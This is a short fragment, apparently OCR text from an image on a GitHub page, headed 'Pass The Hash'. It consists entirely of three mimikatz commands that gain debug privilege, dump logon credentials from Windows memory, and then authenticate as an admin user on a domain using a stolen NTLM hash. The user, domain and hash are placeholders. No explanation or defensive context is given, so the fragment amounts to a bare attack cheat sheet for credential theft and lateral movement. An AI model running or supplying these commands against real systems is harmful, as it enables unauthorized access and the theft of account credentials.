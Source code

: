 **Pass The Hash**

mimikatz# privilege::debug

mimikatz# sekurlsa::logonpasswords

mimikatz# sekurlsa::pth /user:admin /domain:xyz.com /ntlm:xxxxxxxxxxxxxxxxxxxxxxxxxxxx
